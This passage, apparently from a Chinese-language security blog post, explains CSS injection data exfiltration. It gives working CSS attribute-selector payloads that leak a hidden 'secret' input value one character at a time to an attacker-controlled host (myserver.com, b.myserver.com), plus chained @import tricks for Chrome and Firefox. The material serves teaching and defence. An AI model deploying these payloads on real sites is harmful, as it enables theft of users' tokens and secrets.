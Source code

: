 ``` css
input[name="secret"][value^="z"] {
  background: url(https://b.myserver.com/leak?q=z)
}
```

當瀏覽器收到 response 的時候，就會先載入上面這一段 CSS，載入完以後符合條件的元素就會發 request 到後端，假設第一個字是 d 好了，接著 server 這時候才回傳 `https://myserver.com/payload?len=2` 的 response，內容為：

``` css
input[name="secret"][value^="da"] {
  background: url(https://b.myserver.com/leak?q=da)
}

input[name="secret"][value^="db"] {
  background: url(https://b.myserver.com/leak?q=db)
}

input[name="secret"][value^="dc"] {
  background: url(https://b.myserver.com/leak?q=dc)
}

//....

input[name="secret"][value^="dz"] {
  background: url(https://b.myserver.com/leak?q=dz)
}
```

以此類推，只要不斷重複這些步驟，就可以把所有字元都傳到 server 去，靠的就是 `import` 會先載入已經下載好的 resource，然後去等待還沒下載好的特性。

這邊有一點要特別注意，你會發現我們載入 style 的 domain 是 `myserver.com`，而背景圖片的 domain 是 `b.myserver.com`，這是因為瀏覽器通常對於一個 domain 能同時載入的 request 有數量上的限制，所以如果你全部都是用 `myserver.com` 的話，會發現背景圖片的 request 送不出去，都被 CSS import 給卡住了。

因此需要設置兩個 domain，來避免這種狀況。

除此之外，上面這種方式在 Firefox 是行不通的，因為在 Firefox 上就算第一個的 response 先回來，也不會立刻更新 style，要等所有 request 都回來才會一起更新。解法的話可以參考這一篇：[CSS data exfiltration in Firefox via a single injection point](https://research.securitum.com/css-data-exfiltration-in-firefox-via-single-injection-point/)，把第一步的 import 拿掉，然後每一個字元的 import 都用額外的 style 包著，像這樣：

``` html
<style>@import url(https://myserver.com/payload?len=1)</style>
<style>@import url(https://myserver.com/payload?len=2)</style>
<style>@import url(https://myserver.com/payload?len=3)</style>
<style>@import url(https://myserver.com/payload?len=4)</style>
<style>@import url(https://myserver.com/payload?len=5)</style>
<style>@import url(https://myserver.com/payload?len=6)</style>
<style>@import url(https://myserver.com/payload?len=7)</style>
<style>@import url(https://myserver.com/payload?len=8)</style>
```

而上面這樣 Chrome 也是沒問題的，所以統一改成上面這樣，就可以同時支援兩種瀏覽器了。

總結一下，只要用 `@import` 這個 CSS 的功能，就可以做到「不重新載入頁面，但可以動態載入新的 style」，進而偷取後面的每一個字元。

## 一次偷一個字元，太慢了吧？
